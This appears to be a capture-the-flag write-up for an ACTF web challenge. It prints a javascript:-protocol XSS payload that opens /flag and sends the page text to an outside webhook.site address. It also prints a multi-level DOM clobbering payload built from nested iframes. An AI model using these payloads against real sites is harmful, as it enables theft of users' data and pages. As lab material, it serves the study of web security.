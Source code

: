 # Solution

After trying to play arround with CRSF at `/beAdmin` endpoint, my senior told me that `/admin` didn't check if the protocol has to start with `http:` or `https:`. So we can use `javascript:` protocol to execute JS, steal the flag and send to our webhook.

payload for getting flag1: 
```
javascript:a=window.open('/flag');setTimeout(()=>fetch('https://webhook.site/c843ee73-806d-4d3b-a3d6-bbd53e29e82e?'+encodeURIComponent(a.document.body.innerText)),3000)
```

=> `ACTF{3asy_csrf_a`

flag2 will be sent if `fff.lll.aaa.ggg.value == "this_is_what_i_want"` is satified:

```JS
await page.evaluate((url, FLAG) => {
    if (fff.lll.aaa.ggg.value == "this_is_what_i_want") {
        fetch(url + '?part2=' + btoa(encodeURIComponent(FLAG.substring(16))))
    } else {
        fetch(url + '?there_is_no_flag')
    }
}, url, FLAG)
```

And at the time I see `fff.lll.aaa.ggg.value` i know [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering) is what i need.

After searching, i found a research post about how to perform `DOM clobbering` with multiple levels and in this context are 4 levels.
It's [here](https://portswigger.net/research/dom-clobbering-strikes-back#:~:text=Update...Clobbering%20more%20than%203%20levels).

Original payload in the post:
```html
<iframe name=a srcdoc="
<iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
<script>setTimeout(()=>alert(a.b.c.d),500)</script>
```

My modifed payload to solve the challenge:

```html
    <iframe name=fff srcdoc="
        <iframe srcdoc='<output id=aaa name=ggg>this_is_what_i_want</output><a id=aaa>' name=lll>"></iframe>
```

=> `nd_bypass_stup1d_tok3n_g3n3rator_and_use_d0m_clobberring!!!}`



[-]FLAG: *ACTF{3asy_csrf_and_bypass_stup1d_tok3n_g3n3rator_and_use_d0m_clobberring!!!}*